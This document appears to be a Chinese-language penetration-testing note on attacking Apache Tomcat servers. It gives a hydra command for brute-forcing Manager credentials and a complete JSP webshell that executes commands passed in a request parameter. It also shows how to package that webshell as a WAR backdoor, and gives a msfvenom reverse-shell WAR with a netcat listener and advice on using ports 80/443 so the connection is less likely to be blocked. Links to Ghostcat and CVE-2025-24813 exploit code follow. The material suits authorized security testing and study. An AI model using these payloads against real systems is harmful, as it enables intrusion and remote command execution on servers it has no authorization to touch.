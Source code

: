 # Apache Tomcat

Apache Tomcat 是由 Apache 软件基金会（ASF）开发和维护的开源 Java Servlet 容器与 Web 服务器。它实现了 Java EE（现 Jakarta EE）中的 Servlet、JavaServer Pages (JSP) 及相关规范，为 Java Web 应用提供运行环境。

Apache Tomcat 作为独立 Web 服务器或与 Apache HTTP Server、Nginx 协同工作，默认端口 8080，常见错误页面如下：

![Tomcat错误页面](../images/tomcat-error.png)

## Apache Tomcat Manager 口令暴力破解

从 Apache Tomcat 7.0 版本开始，Manager 应用默认只允许从运行 Tomcat 的本地主机（localhost）访问。

`/usr/local/tomcat/webapps/manager/META-INF/context.xml`

```xml
<Context antiResourceLocking="false" privileged="true" >
  <Valve className="org.apache.catalina.valves.RemoteAddrValve"
         allow="127\.\d+\.\d+\.\d+|::1|0:0:0:0:0:0:0:1" />
  <Manager sessionAttributeValueClassNameFilter="java\.lang\.(?:Boolean|Integer|Long|Number|String)|org\.apache\.catalina\.filters\.CsrfPreventionFilter\$LruCache(?:\$1)?|java\.util\.(?:Linked)?HashMap"/>
</Context>
```

修改配置允许外部访问。

```xml
<?xml version="1.0" encoding="UTF-8"?>

<Context antiResourceLocking="false" privileged="true" >
  <Valve className="org.apache.catalina.valves.RemoteAddrValve"
         allow="\d+\.\d+\.\d+\.\d+" />
</Context>
```

暴力破解口令

`\usr\local\tomcat\conf\server.xml`中，

| 配置项              | 默认值          | 说明                     |  
|---------------------|----------------|--------------------------|  
| `lockOutTime`       | 600 秒（10 分钟） | 账户锁定时间             |  
| `failureCount`      | 5              | 连续认证失败次数         |  
| `failureWindow`     | 300 秒（5 分钟）  | 计算失败次数的时间窗口   |  

同一用户在 `failureWindow` 秒内，认证失败次数达到 `failureCount`，账户将被锁定 `lockOutTime` 秒。

- hydra

```bash
hydra -L /usr/share/metasploit-framework/data/wordlists/tomcat_mgr_default_users.txt -P /usr/share/metasploit-framework/data/wordlists/tomcat_mgr_default_pass.txt http-get://<ip>/manager/html
```

![hydra-tomcat](../images/hydra-tomcat.png)

- fscan

<https://github.com/shadow1ng/fscan/blob/main/WebScan/pocs/tomcat-manager-weak.yml>

- 使用 Burp Suite 破解

### 上传 WAR 后门

```jsp
<FORM METHOD=GET ACTION='index.jsp'>
<INPUT name='cmd' type=text>
<INPUT type=submit value='Run'>
</FORM>
<%@ page import="java.io.*" %>
<%
   String cmd = request.getParameter("cmd");
   String output = "";
   if(cmd != null) {
      String s = null;
      try {
         Process p = Runtime.getRuntime().exec(cmd,null,null);
         BufferedReader sI = new BufferedReader(new
InputStreamReader(p.getInputStream()));
         while((s = sI.readLine()) != null) { output += s+"</br>"; }
      }  catch(IOException e) {   e.printStackTrace();   }
   }
%>
<pre><%=output %></pre>
```

```bash
mkdir webshell
cp index.jsp webshell
cd webshell
jar -cvf ../webshell.war *
```

- 使用 msfvenom，反弹 shell

```bash
msfvenom -p java/shell_reverse_tcp LHOST=<ip> LPORT=<port> -f war -o shell.war
```

> 在 MSF 中，默认的反弹（reverse）端口通常是 4444。许多 ISP（互联网服务提供商）会主动屏蔽常见渗透测试端口（如 `4444`），导致反弹连接失败。在实践中，需要注意更换为常用端口以降低被屏蔽或识别的概率，如`80`、`443`。<https://docs.ucloud.cn/unet/faq/firewall>

在公网机器上进行监听：

```bash
nc -lvnp <port>
```

<https://tomcat.apache.org/tomcat-10.0-doc/appdev/sample/>

## Ghostcat 高危文件读取/包含漏洞（CVE-2020-1938）

Ghostcat(幽灵猫) 是由长亭科技安全研究员发现的存在于 Tomcat 中的安全漏洞，由于 Tomcat AJP 协议设计上存在缺陷，攻击者通过 Tomcat AJP Connector 可以读取或包含 Tomcat 上所有 webapp 目录下的任意文件，例如可以读取 webapp 配置文件或源代码。此外在目标应用有文件上传功能的情况下，配合文件包含的利用还可以达到远程代码执行的危害。

<https://mp.weixin.qq.com/s/D1hiKJpah3NhEBLwtTodsg>
<https://github.com/YDHCUI/CNVD-2020-10487-Tomcat-Ajp-lfi>

## CVE-2025-24813

<https://github.com/absholi7ly/POC-CVE-2025-24813>

## 参考资料

<https://github.com/p0dalirius/ApacheTomcatScanner>

<https://cloud.tencent.com/developer/article/1944136>

<https://medium.verylazytech.com/ethical-hacking-guide-penetration-testing-apache-tomcat-2025-edition-01dc367f070c>
